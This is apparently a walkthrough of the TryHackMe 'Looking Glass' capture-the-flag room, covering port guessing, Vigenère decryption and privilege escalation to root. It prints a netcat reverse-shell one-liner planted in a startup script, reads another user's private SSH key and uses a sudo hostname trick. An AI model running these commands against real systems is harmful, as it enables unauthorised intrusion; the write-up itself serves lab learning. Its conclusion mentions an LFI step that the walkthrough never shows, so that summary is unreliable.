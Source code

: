 # TryHackMe — Looking Glass 🪞
🔗 Room Link: [Looking Glass](https://tryhackme.com/room/lookingglass)

📁 Difficulty: Medium

👤 Author: [KRY](https://tryhackme.com/p/KRY)

# Introduction
In this write-up, we’ll walk through the Looking Glass room from TryHackMe. This box presents a fun and unusual path — from playing a “hot or cold” guessing game with SSH ports, to decrypting Vigenère cipher text, and escalating privileges using a clever hostname trick.

It’s a great room for beginners and those looking to sharpen their skills in CTF challenges, cryptanalysis, and Linux privilege escalation techniques.

## Reconnaissance
We start with an Nmap scan:
```python
nmap -A 10.10.152.219
```
The scan showed many open ports, most of them:  Dropbear SSHD
## Port Guessing Game
We used SSH to probe the open ports using:
```python
ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa root@10.10.152.219 -p <port>
```
Depending on the port, we received different responses like Higher or Lower. This clearly indicated a port-guessing logic — similar to the hot and cold game.
After several attempts, we finally found the correct port — 13348 (note: this varies per instance).

## Vigenère Cipher Challenge
Upon connecting to the correct port, we received encrypted text. Using an online Vigenère Cipher tool, we configured the following settings:

* Min Key Length: 15

* Max Key Length: 20

* Iterations: 100

* Max Results: 20

After clicking Auto Solve, the tool provided a possible decryption key.
We then used [CyberChef](https://gchq.github.io/CyberChef/) to decode the ciphertext using the Vigenère Decode operation.
The result was a poem with a secret phrase at the end.

We submitted this phrase under the prompt:
```python
Enter Secret: ********
```
Which revealed SSH credentials:
```python
ssh jabberwock@10.10.152.219
```
## Jabberwock User Access
After logging in, we located the user.txt file. The content appeared reversed, so we used [CyberChef](https://gchq.github.io/CyberChef/) again with the Reverse function to decode it.

## Privilege Escalation (to tweedledum)
Running sudo -l revealed:
```python
User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot
```
We found the script /home/jabberwock/twasBrillig.sh containing:
```python
wall $(cat /home/jabberwock/poem.txt)
```
We replaced the content of that file with a reverse shell:
```python
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc <Your-IP> 4444 >/tmp/f
```
Started listener:
```python
nc -lvnp 4444
```
Then triggered it via:
```python
sudo reboot
```
Shell as tweedledum obtained!
## Access to humptydumpty
We stabilized the shell with:
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
Found the file humptydumpty.txt in tweedledum's home directory. It contained SHA256 hashes.
We cracked the [hashes.com](https://hashes.com/en/decrypt/hash) using hashes.com and got the password.
Switched user:
```python
su humptydumpty
```
## Gaining Access to Alice
As humptydumpty, we could access /home/alice but couldn't list files.
However, we navigated to:
```python
cd /home/alice/.ssh
cat id_rsa
```
And found a private SSH key: id_rsa.
We used it to log in as alice:
```python
ssh -i id_rsa alice@10.10.152.219
```
## Root Access
We ran LinPEAS and found the following interesting sudo right:
```python
sudo -h ssalg-gnikool /bin/bash
```
Since ssalg-gnikool is "looking-glass" reversed, this worked!
We got a root shell and read:
```python
cat /root/root.txt
```
# 🏁 Conclusion
This was a creative room blending classic techniques like LFI, port scanning, and SSH enumeration with fun puzzle elements like the Vigenère cipher and wordplay.
> 🧠 This is my third write-up. I hope it was helpful and clear to follow!
